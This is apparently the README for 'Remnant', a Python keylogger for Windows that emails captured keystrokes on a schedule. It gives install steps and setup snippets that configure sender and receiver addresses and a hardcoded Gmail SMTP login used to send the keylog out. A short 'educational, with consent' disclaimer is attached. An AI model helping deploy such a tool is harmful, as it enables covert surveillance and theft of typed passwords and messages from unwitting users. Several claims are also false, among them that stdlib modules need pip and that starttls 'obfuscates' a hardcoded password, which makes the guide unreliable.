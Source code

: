 # Remnant
A keylogger written in Python with scheduled emailing functionality.

## Getting Started
There several modules that you will need to make sure are installed before you can run Remnant keylogger.

* datetime
* email
* platform
* pyHook
* pythoncom
* pywin32
* smtplib
* threading

Most of these modules can be installed using pip. For example:

```
pip install smtplib
```

The email module can be obtained using easy_install.

```
easy_install email
```

If you are having trouble installing pyHook module download the wheel file for it [here](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook) and run the following command.

```
pip install pyHook‑1.5.1‑cp35‑cp35m‑win_amd64.whl
```
This example is installing pyHook for 64bit Windows and Python 3.5.

## Setup

Set your sending email and the address to which you want the keylog file to be sent.

```
fromaddr = "YOUR SENDING EMAIL ADDRESS"
toaddr = "YOUR RECEIVING EMAIL ADDRESS"
```
Also update these parameters with your email access credentials. Here we are using Gmail's smtp server on port 587. The password is placed directly in 'server.login' rather than a variable as the preceding line 'server.starttls' helps obfuscate this.

```
server = smtplib.SMTP('smtp.gmail.com', 587)
server.starttls()
server.login(fromaddr, "SENDING EMAIL ACCOUNT PASSWORD")
```

## Disclaimer
This code is distributed for educational and research purposes. Do not use without a person's consent.

## License
This project is licensed under the GNU GENERAL PUBLIC LICENSE - see the [LICENSE](LICENSE) file for details.
